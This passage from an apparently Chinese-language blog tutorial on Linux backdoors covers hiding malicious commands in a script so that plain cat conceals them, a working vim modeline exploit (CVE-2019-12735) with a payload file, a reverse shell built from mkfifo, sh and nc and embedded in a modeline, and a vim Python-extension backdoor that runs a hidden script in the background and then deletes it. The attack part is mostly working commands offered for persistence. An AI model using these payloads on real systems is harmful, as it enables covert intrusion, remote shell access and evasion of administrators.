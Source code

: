 使用 py 生成了一个 test.sh 脚本，同目录下只有他本文件，cat 查看一下：

![](https://img2020.cnblogs.com/blog/1561366/202003/1561366-20200305220616509-925341340.png)

执行一下 test.sh：

![](https://img2020.cnblogs.com/blog/1561366/202003/1561366-20200305220738695-372605639.png)

cat -A 再次查看一下：

![](https://img2020.cnblogs.com/blog/1561366/202003/1561366-20200305220835294-1217326615.png)

其实可以看出来这样就做到了恶意命令隐藏的效果。其实之前 Cron 后门中的隐藏方法就是利用了这个。如果使用 cat -A 查看 root 文件的话就可以看到计划任务的真正内容了。

### 0x07 Vim 后门

#### vim modeline(CVE-2019-12735)

该漏洞存在于编辑器的 modeline 功能，部分 Linux 发行版默认启用了该功能，macOS 是没有默认启用。 当 vim 打开一个包含了 vim modeline 注释行的文件时，会自动读取这一行的参数配置并调整自己的设置到这个配置。vim 默认关闭 modeline。

开启命令：

```
vim ~/.vimrc
set modeline


```

当前目录下创建文件：

```
echo ':!uname -a||" vi:fen:fdm=expr:fde=assert\_fails("source\\!\\ \\%"):fdl=0:fdt="' > hello.txt
vim hello.txt


```

![](https://img2020.cnblogs.com/blog/1561366/202003/1561366-20200306165831251-1080934852.png)

反弹 shell：

```
:!rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 127.0.0.1 9999 >/tmp/f||" vi:fen:fdm=expr:fde=assert\_fails("source\\!\\ \\%"):fdl=0:fdt="


```

#### vim python 扩展后门

适用于安装了 vim 且安装了 python 扩展 (绝大版本默认安装) 的 linux 系统。

```
cd /usr/lib/python2.7/site-packages && $(nohup vim -E -c "pyfile dir.py"> /dev/null 2>&1 &) && sleep 2 && rm -f dir.py


```
